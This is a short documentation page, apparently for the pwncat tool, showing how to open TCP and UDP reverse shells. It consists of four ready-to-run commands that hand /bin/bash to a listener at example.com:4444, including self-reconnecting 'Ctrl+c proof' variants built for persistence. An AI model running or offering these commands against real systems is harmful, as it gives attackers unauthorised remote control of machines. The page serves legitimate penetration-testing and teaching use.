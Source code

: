 *************
Reverse Shell
*************


.. note::

   :ref:`what_is_a_reverse_shell`


TCP Reverse shell
=================

Default TCP reverse shell connecting to ``example.com:4444`` which behaves exactly as ``nc``.

.. code-block:: bash

   pwncat -e '/bin/bash' example.com 4444


The following is a Ctrl+c proof TCP reverse shell. If you stop your local listener, the reverse shell will automatically connect back to you indefinitely.

.. code-block:: bash

   pwncat -e '/bin/bash' example.com 4444 --reconn --recon-wait 1


UDP Reverse shell
=================

Default UDP reverse shell which behaves exactly as ``nc``.

.. code-block:: bash

   pwncat -e '/bin/bash' example.com 4444 -u


The following is a Ctrl+c proof UDP reverse shell. If you stop your local listener, the reverse shell will automatically connect back to you indefinitely.

.. code-block:: bash

   pwncat -e '/bin/bash' example.com 4444 -u --ping-intvl 1
